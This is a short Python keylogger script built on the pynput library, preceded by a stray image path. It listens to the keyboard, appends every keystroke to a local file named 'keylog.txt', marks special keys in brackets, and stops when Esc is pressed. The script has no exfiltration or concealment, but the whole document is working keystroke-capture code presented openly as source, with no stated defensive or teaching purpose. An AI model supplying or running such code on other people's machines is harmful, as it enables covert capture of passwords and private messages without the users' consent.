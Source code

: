 from pynput import keyboard

# Define a file to save the logged keys
log_file = "keylog.txt"

def on_press(key):
    try:
        # Write the key to the file
        with open(log_file, "a") as f:
            f.write(f'{key.char}')
    except AttributeError:
        # Handle special keys (e.g., space, enter)
        with open(log_file, "a") as f:
            f.write(f'[{key}]')

def on_release(key):
    # Stop listener
    if key == keyboard.Key.esc:
        return False

# Set up the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
